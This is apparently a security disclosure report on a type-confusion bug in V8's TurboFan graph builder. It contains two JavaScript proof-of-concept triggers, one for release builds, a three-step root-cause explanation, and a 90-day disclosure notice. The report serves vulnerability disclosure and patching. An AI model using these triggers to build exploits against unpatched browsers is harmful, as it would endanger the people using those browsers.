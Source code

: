 PoC:
function* opt(arg = () => arg) {
    let tmp = opt.x;  // LdaNamedProperty
    for (;;) {
        arg;
        yield;

        function inner() {
            tmp;
        }

        break;
    }
}

for (let i = 0; i < 100000; i++) {
    opt();
}

PoC for release build:
function* opt(arg = () => {
    arg;
    this;
}, opt) {
    let tmp = arg.x;
    for (;;) {
        arg;
        yield;

        tmp = {
            inner() {
                tmp;
            }
        };
    }
}

for (let i = 0; i < 10000; i++) {
    opt();
}

What happened:
1. The LdaNamedProperty operation "opt.x" was lowered to a graph exit in the graph builder. This set the current environment to nullptr (BytecodeGraphBuilder::ApplyEarlyReduction).
2. The environment for the next block (for-loop) was supposed to be created from merging with the previous environment, but it had been set to nullptr at 1. So the context value remained as "undefined".
3. But GetSpecializationContext directly casted the context value to Context* which resulted in type confusion.

This bug is subject to a 90 day disclosure deadline. After 90 days elapse
or a patch has been made broadly available, the bug report will become
visible to the public.